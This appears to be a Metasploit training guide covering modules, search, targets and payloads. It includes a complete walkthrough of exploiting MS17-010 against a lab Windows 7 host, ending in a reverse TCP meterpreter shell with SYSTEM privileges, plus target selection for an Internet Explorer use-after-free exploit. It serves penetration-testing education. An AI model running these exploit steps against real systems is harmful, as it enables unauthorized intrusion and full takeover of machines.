

# Metasploit Quick Reference

<figure><figcaption></figcaption></figure>


## Modules

***

Metasploit `modules` are prepared scripts with a specific purpose and corresponding functions that have already been developed and tested in the wild. The `exploit` category consists of so-called proof-of-concept (`POCs`) that can be used to exploit existing vulnerabilities in a largely automated manner. Many people often think that the failure of the exploit disproves the existence of the suspected vulnerability. However, this is only proof that the Metasploit exploit does not work and not that the vulnerability does not exist. This is because many exploits require customization according to the target hosts to make the exploit work. Therefore, automated tools such as the Metasploit framework should only be considered a support tool and not a substitute for our manual skills.

Once we are in the `msfconsole`, we can select from an extensive list containing all the available Metasploit modules. Each of them is structured into folders, which will look like this:

**Syntax**

Modules

```shell-session
<No.> <type>/<os>/<service>/<name>
```

**Example**

Modules

```shell-session
794   exploit/windows/ftp/scriptftp_list
```

**Index No.**

The `No.` tag will be displayed to select the exploit we want afterward during our searches. We will see how helpful the `No.` tag can be to select specific Metasploit modules later.

**Type**

The `Type` tag is the first level of segregation between the Metasploit `modules`. Looking at this field, we can tell what the piece of code for this module will accomplish. Some of these `types` are not directly usable as an `exploit` module would be, for example. However, they are set to introduce the structure alongside the interactable ones for better modularization. To explain better, here are the possible types that could appear in this field:

| **Type**    | **Description**                                                                                 |
| ----------- | ----------------------------------------------------------------------------------------------- |
| `Auxiliary` | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.  |
| `Encoders`  | Ensure that payloads are intact to their destination.                                           |
| `Exploits`  | Defined as modules that exploit a vulnerability that will allow for the payload delivery.       |
| `NOPs`      | (No Operation code) Keep the payload sizes consistent across exploit attempts.                  |
| `Payloads`  | Code runs remotely and calls back to the attacker machine to establish a connection (or shell). |
| `Plugins`   | Additional scripts can be integrated within an assessment with `msfconsole` and coexist.        |
| `Post`      | Wide array of modules to gather information, pivot deeper, etc.                                 |

Note that when selecting a module to use for payload delivery, the `use <no.>` command can only be used with the following modules that can be used as `initiators` (or interactable modules):

| **Type**    | **Description**                                                                                |
| ----------- | ---------------------------------------------------------------------------------------------- |
| `Auxiliary` | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality. |
| `Exploits`  | Defined as modules that exploit a vulnerability that will allow for the payload delivery.      |
| `Post`      | Wide array of modules to gather information, pivot deeper, etc.                                |

**OS**

The `OS` tag specifies which operating system and architecture the module was created for. Naturally, different operating systems require different code to be run to get the desired results.

**Service**

The `Service` tag refers to the vulnerable service that is running on the target machine. For some modules, such as the `auxiliary` or `post` ones, this tag can refer to a more general activity such as `gather`, referring to the gathering of credentials, for example.

**Name**

Finally, the `Name` tag explains the actual action that can be performed using this module created for a specific purpose.

***

### Searching for Modules

Metasploit also offers a well-developed search function for the existing modules. With the help of this function, we can quickly search through all the modules using specific `tags` to find a suitable one for our target.

**MSF - Search Function**

Modules

```shell-session
msf6 > help search

Usage: search [<options>] [<keywords>:<value>]

Prepending a value with '-' will exclude any matching results.
If no options or keywords are provided, cached results are displayed.

OPTIONS:
  -h                   Show this help information
  -o <file>            Send output to a file in csv format
  -S <string>          Regex pattern used to filter search results
  -u                   Use module if there is one result
  -s <search_column>   Sort the research results based on <search_column> in ascending order
  -r                   Reverse the search results order to descending order

Keywords:
  aka              :  Modules with a matching AKA (also-known-as) name
  author           :  Modules written by this author
  arch             :  Modules affecting this architecture
  bid              :  Modules with a matching Bugtraq ID
  cve              :  Modules with a matching CVE ID
  edb              :  Modules with a matching Exploit-DB ID
  check            :  Modules that support the 'check' method
  date             :  Modules with a matching disclosure date
  description      :  Modules with a matching description
  fullname         :  Modules with a matching full name
  mod_time         :  Modules with a matching modification date
  name             :  Modules with a matching descriptive name
  path             :  Modules with a matching path
  platform         :  Modules affecting this platform
  port             :  Modules with a matching port
  rank             :  Modules with a matching rank (Can be descriptive (ex: 'good') or numeric with comparison operators (ex: 'gte400'))
  ref              :  Modules with a matching ref
  reference        :  Modules with a matching reference
  target           :  Modules affecting this target
  type             :  Modules of a specific type (exploit, payload, auxiliary, encoder, evasion, post, or nop)

Supported search columns:
  rank             :  Sort modules by their exploitabilty rank
  date             :  Sort modules by their disclosure date. Alias for disclosure_date
  disclosure_date  :  Sort modules by their disclosure date
  name             :  Sort modules by their name
  type             :  Sort modules by their type
  check            :  Sort modules by whether or not they have a check method

Examples:
  search cve:2009 type:exploit
  search cve:2009 type:exploit platform:-linux
  search cve:2009 -s name
  search type:exploit -s type -r
```

For example, we can try to find the `EternalRomance` exploit for older Windows operating systems. This could look something like this:

***

**MSF - Searching for EternalRomance**

Modules

```shell-session
msf6 > search eternalromance

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution


msf6 > search eternalromance type:exploit

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

We can also make our search a bit more coarse and reduce it to one category of services. For example, for the CVE, we could specify the year (`cve:<year>`), the platform Windows (`platform:<os>`), the type of module we want to find (`type:<auxiliary/exploit/post>`), the reliability rank (`rank:<rank>`), and the search name (`<pattern>`). This would reduce our results to only those that match all of the above.

**MSF - Specific Search**

Modules

```shell-session
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxylogon_rce    2021-03-02       excellent  Yes    Microsoft Exchange ProxyLogon RCE
   1  exploit/windows/http/exchange_proxyshell_rce    2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE
   2  exploit/windows/http/sharepoint_unsafe_control  2021-05-11       excellent  Yes    Microsoft SharePoint Unsafe Control and ViewState RCE
```

***

### Module Selection

To select our first module, we first need to find one. Let's suppose that we have a target running a version of SMB vulnerable to EternalRomance (MS17\_010) exploits. We have found that SMB server port 445 is open upon scanning the target.

Modules

```shell-session
$ nmap -sV 10.10.10.40

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-13 21:38 UTC
Stats: 0:00:50 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Nmap scan report for 10.10.10.40
Host is up (0.051s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.87 seconds
```

We would boot up `msfconsole` and search for this exact exploit name.

**MSF - Search for MS17\_010**

Modules

```shell-session
msf6 > search ms17_010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
```

Next, we want to select the appropriate module for this scenario. From the `Nmap` scan, we have detected the SMB service running on version `Microsoft Windows 7 - 10`. With some additional OS scanning, we can guess that this is a Windows 7 running a vulnerable instance of SMB. We then proceed to select the module with the `index no. 2` to test if the target is vulnerable.

***

### Using Modules

Within the interactive modules, there are several options that we can specify. These are used to adapt the Metasploit module to the given environment. Because in most cases, we always need to scan or attack different IP addresses. Therefore, we require this kind of functionality to allow us to set our targets and fine-tune them. To check which options are needed to be set before the exploit can be sent to the target host, we can use the `show options` command. Everything required to be set before the exploitation can occur will have a `Yes` under the `Required` column.

**MSF - Select Module**

Modules

```shell-session

<SNIP>

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   
   
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec): 

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                                                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Here we see how helpful the `No.` tags can be. Because now, we do not have to type the whole path but only the number assigned to the Metasploit module in our search. We can use the command `info` after selecting the module if we want to know something more about the module. This will give us a series of information that can be important for us.

**MSF - Module Information**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > info

       Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
     Module: exploit/windows/smb/ms17_010_psexec
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2017-03-14

Provided by:
  sleepya
  zerosum0x0
  Shadow Brokers
  Equation Group

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   PowerShell
  2   Native upload
  3   MOF upload

Check supported:
  Yes

Basic options:
  Name                  Current Setting                          Required  Description
  ----                  ---------------                          --------  -----------
  DBGTRACE              false                                    yes       Show extra debug trace info
  LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
  NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
  NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                        rdlists/named_pipes.txt
  RHOSTS                                                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                                                           wiki/Using-Metasploit
  RPORT                 445                                      yes       The Target port (TCP)
  SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
  SERVICE_DISPLAY_NAME                                           no        The service display name
  SERVICE_NAME                                                   no        The service name
  SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a nor
                                                                           mal read/write folder share
  SMBDomain             .                                        no        The Windows domain to use for authentication
  SMBPass                                                        no        The password for the specified username
  SMBUser                                                        no        The username to authenticate as

Payload information:
  Space: 3072

Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to 
  achieve a write-what-where primitive. This will then be used to 
  overwrite the connection session information with as an 
  Administrator session. From there, the normal psexec payload code 
  execution is done. Exploits a type confusion between Transaction and 
  WriteAndX requests and a race condition in Transaction requests, as 
  seen in the EternalRomance, EternalChampion, and EternalSynergy 
  exploits. This exploit chain is more reliable than the EternalBlue 
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

After we are satisfied that the selected module is the right one for our purpose, we need to set some specifications to customize the module to use it successfully against our target host, such as setting the target (`RHOST` or `RHOSTS`).

**MSF - Target Specification**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

In addition, there is the option `setg`, which specifies options selected by us as permanent until the program is restarted. Therefore, if we are working on a particular target host, we can use this command to set the IP address once and not change it again until we change our focus to a different IP address.

**MSF - Permanent Target Specification**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Finally, since we are about to use a TCP-based reverse shell (`/windows/meterpreter/reverse_tcp`) we need to specify to which IP address it needs to connect to in order to establish a connection. Therefore, we need to set `LHOST` to our own IP address like following:

**MSF - LHOST Specification**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg LHOST 10.10.14.15

LHOSTS => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Once everything is set and ready to go, we can proceed to launch the attack. Note that the payload was not set here, as the default one is sufficient for this demonstration.

**MSF - Exploit Execution**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter> shell

C:\Windows\system32>
```

We now have a shell on the target machine, and we can interact with it.

**MSF - Target Interaction**

Modules

```shell-session
C:\Windows\system32> whoami

whoami
nt authority\system
```

This has been a quick and dirty example of how `msfconsole` can help out quickly but serves as an excellent example of how the framework works. Only one module was needed without any `payload` selection, `encoding` or `pivoting` between sessions or jobs.


## Targets

***

`Targets` are unique operating system identifiers taken from the versions of those specific operating systems which adapt the selected exploit module to run on that particular version of the operating system. The `show targets` command issued within an exploit module view will display all available vulnerable targets for that specific exploit, while issuing the same command in the root menu, outside of any selected exploit module, will let us know that we need to select an exploit module first.

**MSF - Show Targets**

Targets

```shell-session
msf6 > show targets

[-] No exploit module selected.
```

When looking at our previous exploit module, this would be what we see:

Targets

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

***

### Selecting a Target

We can see that there is only one general type of target set for this type of exploit. What if we change the exploit module to something that needs more specific target ranges? The following exploit is aimed at:

* `MS12-063 Microsoft Internet Explorer execCommand Use-After-Free Vulnerability`.

If we want to find out more about this specific module and what the vulnerability behind it does, we can use the `info` command. This command can help us out whenever we are unsure about the origins or functionality of different exploits or auxiliary modules. Keeping in mind that it is always considered best practice to audit our code for any artifact generation or 'additional features', the `info` command should be one of the first steps we take when using a new module. This way, we can familiarize ourselves with the exploit functionality while assuring a safe, clean working environment for both our clients and us.

**MSF - Target Selection**

Targets

```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > info

       Name: MS12-063 Microsoft Internet Explorer execCommand Use-After-Free Vulnerability 
     Module: exploit/windows/browser/ie_execcommand_uaf
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Good
  Disclosed: 2012-09-14

Provided by:
  unknown
  eromang
  binjo
  sinn3r <sinn3r@metasploit.com>
  juan vazquez <juan.vazquez@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   IE 7 on Windows XP SP3
  2   IE 8 on Windows XP SP3
  3   IE 7 on Windows Vista
  4   IE 8 on Windows Vista
  5   IE 8 on Windows 7
  6   IE 9 on Windows 7

Check supported:
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  OBFUSCATE  false            no        Enable JavaScript obfuscation
  SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL for incoming connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                     no        The URI to use for this exploit (default is random)

Payload information:

Description:
  This module exploits a vulnerability found in Microsoft Internet 
  Explorer (MSIE). When rendering an HTML page, the CMshtmlEd object 
  gets deleted in an unexpected manner, but the same memory is reused 
  again later in the CMshtmlEd::Exec() function, leading to a 
  use-after-free condition. Please note that this vulnerability has 
  been exploited since Sep 14, 2012. Also, note that 
  presently, this module has some target dependencies for the ROP 
  chain to be valid. For WinXP SP3 with IE8, msvcrt must be present 
  (as it is by default). For Vista or Win7 with IE8, or Win7 with IE9, 
  JRE 1.6.x or below must be installed (which is often the case).

References:
  https://cvedetails.com/cve/CVE-2012-4969/
  OSVDB (85532)
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2012/MS12-063
  http://technet.microsoft.com/en-us/security/advisory/2757760
  http://eromang.zataz.com/2012/09/16/zero-day-season-is-really-not-over-yet/
```

Looking at the description, we can get a general idea of what this exploit will accomplish for us. Keeping this in mind, we would next want to check which versions are vulnerable to this exploit.

Targets

```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > options

Module options (exploit/windows/browser/ie_execcommand_uaf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   OBFUSCATE  false            no        Enable JavaScript obfuscation
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7
```

We see options for both different versions of Internet Explorer and various Windows versions. Leaving the selection to `Automatic` will let msfconsole know that it needs to perform service detection on the given target before launching a successful attack.

If we, however, know what versions are running on our target, we can use the `set target <index no.>` command to pick a target from the list.

Targets

```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7


msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6

target => 6
```

***

### Target Types

There is a large variety of target types. Every target can vary from another by service pack, OS version, and even language version. It all depends on the return address and other parameters in the target or within the exploit module.

The return address can vary because a particular language pack changes addresses, a different software version is available, or the addresses are shifted due to hooks. It is all determined by the type of return address required to identify the target. This address can be `jmp esp`, a jump to a specific register that identifies the target, or a `pop/pop/ret`. For more on the topic of return addresses, see the [Stack-Based Buffer Overflows on Windows x86](https://academy.hackthebox.com/module/89/section/931) module. Comments in the exploit module's code can help us determine what the target is defined by.

To identify a target correctly, we will need to:

* Obtain a copy of the target binaries
* Use msfpescan to locate a suitable return address

Later in the module, we will be delving deeper into exploit development, payload generation, and target identification.


## Payloads

***

A `Payload` in Metasploit refers to a module that aids the exploit module in (typically) returning a shell to the attacker. The payloads are sent together with the exploit itself to bypass standard functioning procedures of the vulnerable service (`exploits job`) and then run on the target OS to typically return a reverse connection to the attacker and establish a foothold (`payload's job`).

